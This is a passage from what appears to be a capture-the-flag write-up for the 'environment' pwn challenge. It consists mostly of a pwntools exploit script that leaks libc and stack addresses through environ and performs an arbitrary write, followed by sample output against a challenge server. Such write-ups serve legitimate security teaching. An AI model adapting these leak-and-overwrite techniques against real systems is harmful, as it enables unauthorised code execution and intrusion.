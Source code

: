 ```
printf_libc = int(printf_libc_str, 16)
print('printf_libc is', hex(printf_libc))

libc_base = printf_libc - libc.symbols['printf']
environ = libc_base + libc.symbols['environ']

target.sendline(b'2')
print(target.recvuntil(b'What do you want to recycle?'))
#Note: 1 or 2 makes little difference; if I select neither, it prints we are doomed and doesn't execute form
target.sendline(b'1')
print(target.recvuntil(b'Is this your first time recycling? (y/n)'))
target.sendline(b'n')

for i in range(4):
	recycle_no()

print(target.recvuntil(b'whatever you want.'))
target.sendline(str(environ).encode())

result = target.recvuntil(b'1. Pl')
stack_leak = result.replace(b'1. Pl', b'').replace(b'\n> \x1b[0m', b'').replace(b'\n\x1b[1;0;32m\n', b'')

print(stack_leak)
print(len(stack_leak))
stack = u64(stack_leak + (8 - len(stack_leak)) * b'\x00')
print('stack', hex(stack))

overwrite_point = stack - 288

#Code to do the overwrite once I've figured out what should go in there...
print(target.recvuntil(b'2. Recycle'))
target.sendline(b'1')
print(target.recvuntil(b'2. '))
target.sendline(str(overwrite_point).encode())
print(target.recvuntil(b'2. Forest'))

target.sendline(str(hidden_resources).encode())


target.interactive()

```

And the ouput should look like this:

```
ubuntu@ubuntu1804:~/CTF/HTBApocalypse/environment$ python3 environment_payload.py
[+] Opening connection to 165.227.231.249 on port 30917: Done
[*] '/home/ubuntu/CTF/HTBApocalypse/environment/environment'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/ubuntu/CTF/HTBApocalypse/environment/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
935776
```
